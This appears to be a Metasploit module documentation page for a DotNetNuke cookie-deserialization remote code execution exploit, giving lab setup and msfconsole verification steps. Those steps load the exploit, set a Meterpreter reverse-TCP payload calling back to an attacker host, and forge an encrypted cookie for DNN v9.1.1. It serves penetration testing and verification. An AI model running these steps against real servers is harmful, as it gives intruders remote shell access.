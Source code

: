   [https://www.dnnsoftware.com/wiki/how-to-install-dotnetnuke](https://www.dnnsoftware.com/wiki/how-to-install-dotnetnuke)
  
  You will need SQL Server 2005/2008/2008R2/2012 or 2016 installed.
  
  Log in as the super user account and make sure the 404 error page is set to the built-in 404 Error Page.
  Typically, this is already set as the default setting, but during testing I encountered an edge case where an issue during installation caused this value to be set to "None Specified".
  
  Additionally, if you are testing this module from a machine other than the host that the application is installed on, you will need to configure the Site Alias so that it is accessible using a hostname other than `localhost`. Additional firewall rules may need to be configured to allow web access, depending on how you set up the applicaiton in IIS.
  
  This module has been tested on DNN v7.0.0 - v9.3.0-RC running on Windows Server 2016.

  
### v5.0.0 - v9.1.0
  No additional configuration required.
  
### v9.1.1+
  While logged in as the super user account, configure the application to use Verified registration. You will also need to configure the SMTP server settings to be valid in order to receive the registration email.

## Verification Steps  

### v5.0.0 - v9.1.0
  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  4. Do: ```set RHOST <RHOST>```
  5. Do: ```set RPORT <RPORT>```
  6. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  7. Do: ```set LHOST <LHOST>```
  8. Do: ```set LPORT <LPORT>```
  9. Do: ```check```
  10. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  11. Do: ```exploit```
  12. **Verify** that you get a meterpeter shell
  
### v9.1.1
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register a new user account and copy the verification code in the link in the registration email
  5. Log in as the new user and navigate to the Edit Profile page. Note the `userId` url path parameter value
  6. Examine the page's source code and search for a `portalId` value that is a positive integer.
  7. Start msfconsole
  8. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  9. Do: ```set RHOST <RHOST>```
  10. Do: ```set RPORT <RPORT>```
  11. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  12. Do: ```set LHOST <LHOST>```
  13. Do: ```set LPORT <LPORT>```
  14. Do: ```set VERIFICATION_CODE <Verification Code>```
  15. Do: ```set VERIFICATION_PLAIN <{portalId}-{userId}>```
  16. Do: ```set ENCRYPTED true```
  14. Do: ```check```
  15. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  16. Do: ```exploit```
  17. **Verify** that you get a meterpeter shell
  